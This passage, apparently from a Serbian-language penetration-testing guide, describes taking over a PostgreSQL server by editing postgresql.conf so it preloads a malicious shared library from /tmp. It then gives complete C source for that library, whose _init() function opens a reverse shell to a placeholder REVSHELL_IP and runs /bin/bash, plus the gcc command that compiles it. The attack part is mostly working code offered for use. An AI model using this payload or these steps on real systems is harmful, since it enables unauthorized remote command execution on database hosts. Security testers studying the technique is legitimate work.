 Koraci napada su:

1. Preuzmite originalni `postgresql.conf`
2. Uključite `/tmp/` direktorijum u vrednost `dynamic_library_path`, na primer `dynamic_library_path = '/tmp:$libdir'`
3. Uključite ime zlonamerne biblioteke u vrednost `session_preload_libraries`, na primer `session_preload_libraries = 'payload.so'`
4. Proverite glavnu verziju Postgresa putem upita `SELECT version()`
5. Kompajlirajte zlonamerni kod biblioteke sa odgovarajućim PostgreSQL dev paketom Primer koda:

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _init() {
/*
kod preuzet sa https://www.revshells.com/
*/

int port = REVSHELL_PORT;
struct sockaddr_in revsockaddr;

int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port = htons(port);
revsockaddr.sin_addr.s_addr = inet_addr("REVSHELL_IP");

connect(sockt, (struct sockaddr *) &revsockaddr,
sizeof(revsockaddr));
dup2(sockt, 0);
dup2(sockt, 1);
dup2(sockt, 2);

char * const argv[] = {"/bin/bash", NULL};
execve("/bin/bash", argv, NULL);
}
```

Kompajliranje koda:

```bash
gcc -I$(pg_config --includedir-server) -shared -fPIC -nostartfiles -o payload.so payload.c
```
